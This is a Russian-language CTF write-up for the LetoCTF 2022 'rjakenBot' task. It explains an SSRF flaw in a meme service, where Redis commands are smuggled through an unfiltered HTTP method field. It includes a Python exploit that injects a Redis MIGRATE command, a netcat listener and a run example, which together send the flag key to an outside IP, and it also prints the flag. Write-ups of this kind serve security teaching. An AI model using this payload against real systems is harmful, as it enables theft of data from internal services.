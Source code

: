 # LetoCTF Taskbot 2022 | 04-rjakenBot

Автор: [lololozhkin](https://github.com/lololozhkin)

## Информация

Написал сервис для создания смешных картинок! Для этого пришлось обучить нейронную сеть на миллионах постироничных мемов с просторов интернета. Заранее написал сервис так, чтобы он масштабировался вертикально, горизонтально и диаганально, потому что его ждет неминуемая популярность!

Хватит слов, пора создать свой classique meme)

## Описание

На вход сервис принимает ссылку на картинку и HTTP метод, с помощью которого можно получить картинку по ссылке (GET или POST).

![demo](.readmestatic/demo.png)

На выходе сервис выдает картинку с рандомной надписью, что называется "мем" у молодежи.

Внутри сервис ходит по ссылке с заданным методом, чтобы получить картинку, а затем на ней рисует.
Чтобы не отрисовывать на одних и тех же картинках текст по несколько раз, и чтобы подолгу не ходить за картинками в интернет, используется redis в качестве кэша.

Сам таск на уязвимость SSRF (server side request forgery), которая заключается в том, что клиент может отправлять запросы во внутреннюю, закрытую сеть (куда он не должен уметь отправлять запросы).

## Решение

В коде видим запуск горутины, которая кладет флаг в redis каждую секунду, значит нам нужно каким-то образом достучаться до redis'а.

![flag-putter](.readmestatic/flagputter.png)

Сервис запущен в docker-compose, значит можно обратиться к контейнеру redis'а через адрес http://redis:6379. Так же обращается к redis'у и само приложение.

![redis-docker-addr](.readmestatic/dockerredisaddr.png)

Мы можем отправить запрос на redis, если укажем `pictureUrl: http://redis:6379`, ведь в сервисе нет фильтрации на ссылку. Однако так просто общаться c кэшом не получится, потому что redis не поддерживает HTTP.

Redis использует протокол [RESP](https://redis.io/docs/reference/protocol-spec/). Этот протокол работает поверх TCP, как и HTTP, поэтому можно попробовать видоизменить HTTP запрос так, чтобы он стал приниматься как RESP.

Для отправления запросов используется не стандартная библиотека http, а библиотека fasthttp, возможно в ней нет должной фильтрации или экранирования поля method.

![fasthttp-import](.readmestatic/fasthttp.png)

Попробовав положить в method любую строку, понимаем, что фильтрации на method в библиотеке нет и мы можем класть туда что захотим.

![setmethod](.readmestatic/setmethod.png)

Почитав документацию по RESP узнаем, что запросы в redis разделяются с помощью `\r\n`, следовательно в method мы можем положить любой пэйлоад для редиса и поставить в конце `\r\n`, чтобы остатки http запроса не помешали.

Мы умеем отправлять запросы в redis. Последняя проблема заключается в том, что мы не можем получать от него ответы, ведь redis отдает resp ответы, которые не интерпретируюстя в http. Осталось понять какой запрос можно отправить, чтобы все же получить данные из redis.
Здесь есть много вариантов, но мы остановимся на команде [MIGRATE](https://redis.io/commands/migrate/).

![migrate-redis](.readmestatic/migrate.png)

Мы можем взять любую виртуалку с открытым ip, слушать нужный порт (например с помощью `nc -lp 6379`) и ждать, пока нам прилетит значение по ключу `flag`.

Сплойт:
```python
...

def main():
    args = parse_args()
    payload = f'MIGRATE {args.migrate_to_host} {args.migrate_to_port} flag 0 1000\r\n'

    resp = requests.post(f'{args.service_url}/image', json={
        'pictureLink': args.redis_url,
        'method': payload,
    })

    print(resp.text)

...
```

В ответ мы получим сообщение об ошибке, но на удаленной машинке мы увидим прилетевший флаг!

Пример запуска:
```bash
./sploit.py --migrate-to-host 167.99.211.138 --service-url http://localhost:14448
```

## Флаг

`LetoCTF{0mG_Wh4t_w4s_Th4T??_w4s_1t_p05t1r0ny???}`
